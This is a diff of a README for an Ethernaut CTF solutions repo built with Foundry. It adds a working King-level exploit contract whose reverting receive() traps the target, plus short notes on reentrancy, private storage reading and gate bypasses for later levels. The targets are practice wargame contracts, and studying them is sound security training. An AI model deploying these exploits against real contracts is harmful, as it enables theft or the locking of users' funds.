

Before and after one commit to mRn0b0dye/EthernautCTF-Foundry, a Markdown page: README.md, the part around one of its changes. Shown at 88% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -265,67 +346,77 @@ contract  Testking is Test {
         if (!(_king._king() == user2)) {
             console.log("Hacked successfully, Attacker is the King forever");
         }
-
     }
 }
 
 contract Attacker {
     constructor(King _King) payable {
         (bool result,) = address(_King).call{value: msg.value}("");
+    }
 
+    receive() external payable {
+        revert("King is trapped!");
     }
 }
 ```
+
+**Key Insights:**
+- Contracts can reject ETH transfers via `receive()` revert
+- Denying fund transfers can trap critical state
+- Always handle failed transfers gracefully
 ---
 
-### <a id='Level10'></a> Level 10: Re-entrancy
-> **The goal of this level is for you to steal all the funds from the contract.**
-- **[CODE](/src/Reentrancy/Reentrancy.sol)**
-```javascript
-// SPDX-License-Identifier: MIT
-pragma solidity ^0.6.12;
+## Level 10: Re-entrancy
 
-import "openzeppelin-contracts-06/math/SafeMath.sol";
+> **Objective:** Steal all funds from the contract using reentrancy.
 
-contract Reentrance {
-    using SafeMath for uint256;
+**Challenge Files:**
+- [Vulnerable Contract](/src/Re-entrancy/Re-entrancy.sol)
 
-    mapping(address => uint256) public balances;
+**Vulnerability:** Withdrawal logic vulnerable to reentrancy attack - balance updated after transfer.
 
-    function donate(address _to) public payable {
-        balances[_to] = balances[_to].add(msg.value);
-    }
+**POC:** *(To be documented)*
 
-    function balanceOf(address _who) public view returns (uint256 balance) {
-        return balances[_who];
-    }
-
-    function withdraw(uint256 _amount) public {
-        if (balances[msg.sender] >= _amount) {
-            (bool result,) = msg.sender.call{value: _amount}("");
-            if (result) {
-                _amount;
-            }
-            balances[msg.sender] -= _amount;
-        }
-    }
-
-    receive() external payable {}
-}
-```
-**POC**
-```javascript
-
-```
 ---
 
-### <a id='Level11'></a> Level 11: Elevator
-### <a id='Level12'></a> Level 12: Privacy
-### <a id='Level13'></a> Level 13: Gatekeeper One
-### <a id='Level14'></a> Level 14: Gatekeeper Two
-### <a id='Level15'></a> Level 15: Naught Coin
+## Level 11: Elevator
 
+> **Challenge Files:**
+- [Vulnerable Contract](/src/Elevator/Elevator.sol)
 
+**Vulnerability:** *(To be documented)*
 
+---
 
+## Level 12: Privacy
 
+> **Challenge Files:**
+- [Vulnerable Contract](/src/Privacy/Privacy.sol)
+
+**Vulnerability:** Private storage variables can be read from blockchain state.
+
+---
+
+## Level 13: Gatekeeper One
+
+> **Challenge Files:**
+- [Vulnerable Contract](/src/Gatekepper\ One/Gatekepper.sol)
+
+**Vulnerability:** Gate checks can be bypassed with proper address encoding.
+
+---
+
+## Level 14: Gatekeeper Two
+
+> **Challenge Files:**
+- [Vulnerable Contract](/src/Gatekepper\ Two/Gatekepper.sol)
+
+**Vulnerability:** *(To be documented)*
+
+---
+
+## Level 15: Naught Coin
+
+> **Challenge Files:**
+- [Vulnerable Contract](/src/Naught\ Coin/NaughtCoin.sol)
+
````
Also changed, not shown: other parts of README.md (+199 -64 lines).
